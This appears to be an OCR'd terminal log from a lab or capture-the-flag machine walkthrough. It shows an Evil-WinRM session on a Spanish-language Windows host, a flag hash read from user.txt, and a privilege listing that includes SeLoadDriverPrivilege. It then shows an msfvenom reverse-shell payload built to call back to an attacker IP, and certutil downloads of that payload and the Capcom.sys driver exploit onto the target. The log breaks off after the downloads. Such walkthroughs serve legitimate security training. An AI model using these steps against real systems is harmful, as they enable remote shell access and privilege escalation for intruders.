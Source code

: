 
*Evil-WinRM* PS C:\Users\Chivas Regal\Desktop> type user.txt
bb8b4df8eda73e75ca51ca88a909c1cb  -

===========================================================================================================================================================================
*Evil-WinRM* PS C:\Users\Chivas Regal\Desktop> whoami /priv

INFORMACIàN DE PRIVILEGIOS
--------------------------

Nombre de privilegio          Descripci¢n                                     Estado
============================= =============================================== ==========
SeMachineAccountPrivilege     Agregar estaciones de trabajo al dominio        Habilitada
SeLoadDriverPrivilege         Cargar y descargar controladores de dispositivo Habilitada
SeChangeNotifyPrivilege       Omitir comprobaci¢n de recorrido                Habilitada
SeIncreaseWorkingSetPrivilege Aumentar el espacio de trabajo de un proceso    Habilitada


===========================================================================================================================================================================

https://github.com/JoshMorrison99/SeLoadDriverPrivilege



(kali㉿kali)-[~/Documents/pacharan/SeLoadDriverPrivilege]

Capcom.sys  ExploitCapcom.exe  LoadDriver.exe  README.md




┌──(kali㉿kali)-[~/Documents/pacharan/SeLoadDriverPrivilege]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.69.3 LPORT=4444 -f exe -o rev.exe
Saved as: rev.exe




*Evil-WinRM* PS C:\> mkdir temp


    Directorio: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        9/23/2025  10:57 AM                temp


*Evil-WinRM* PS C:\> cd temp
*Evil-WinRM* PS C:\temp> certutil -urlcache -f http://192.168.69.3:8000/rev.exe rev.exe
****  En línea  ****


*Evil-WinRM* PS C:\temp> certutil -urlcache -f http://192.168.69.3:8000/rev.exe rev.exe
****  En línea  ****
CertUtil: -URLCache comando completado correctamente.

*Evil-WinRM* PS C:\temp> certutil -urlcache -f http://192.168.69.3:8000/Capcom.sys Capcom.sys
****  En línea  ****
CertUtil: -URLCache comando completado correctamente.
